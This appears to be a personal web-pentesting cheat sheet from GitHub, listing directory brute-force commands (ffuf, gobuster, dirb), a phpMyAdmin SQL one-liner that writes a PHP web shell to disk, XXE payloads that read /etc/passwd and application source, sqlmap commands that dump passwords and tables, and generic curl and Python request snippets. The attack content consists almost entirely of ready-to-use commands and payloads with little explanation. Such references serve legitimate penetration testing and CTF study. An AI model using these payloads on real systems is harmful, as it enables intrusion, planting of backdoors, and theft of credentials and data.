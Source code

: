 # Web

- [BruteForce](#bruteforce)
- [PhpMyAdmin](#phpmyadmin)
- [XML external entity (XXE)](#xml-external-entity-xxe)
- [Mysql](#mysql)
- [SQL Injection](#sql-injection)
- [Request](#request)

## BruteForce
### ffuf
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/FUZZ'
```
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://FUZZ.url/ -H 'Host: FUZZ.host'
```

### Gobuster
```
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```

### Dirb
```
dirb url -R
```

### Dibuster
```
dirbuster
```

### Zap
```
owasp-zap
```

## PhpMyAdmin
### Quick Shellcode
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```

## XML external entity (XXE)
### Read File
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<foo>Hello &file;</foo>
```
### Get Link
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<foo>Hello &file;</foo>
```

## MySql
### Connect to mysql
```
mysql -h localhost -u myname -p
```
### Show Info
```
SHOW DATABASES;
use db_name
SHOW TABLES;
select * from table_name
```
### Open SQLite3
```
sqlite3 database.sqlite3
```
or open in vs code

## SQL Injection
### SQLmap
```
sqlmap -r req --proxy=http://localhost:8080 --batch
sqlmap -r req --proxy=http://localhost:8080 --batch --passwords
sqlmap -r req --proxy=http://localhost:8080 --batch --dbs
sqlmap -r req --proxy=http://localhost:8080 --batch --fetch --tables -D db
sqlmap -r req --proxy=http://localhost:8080 --batch --dump -T table -D db
```

## Request
### Curl
```
curl 'http://example.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=login&password=pass'
```

### Python (requests)
```python
import requests

s = requests.session()
# s.proxies = {
#   "http": "localhost:8080",
#   "https": "localhost:8080",
# }

r = s.get('http://example.com')
print(r.text)
r = s.post('http://example.com/submit',
    headers={
        'Content-type': 'raw',
    },
    data={'user': 'guest'},
    # auth=('username', 'password')
)
print(r.status_code, r.url)
```
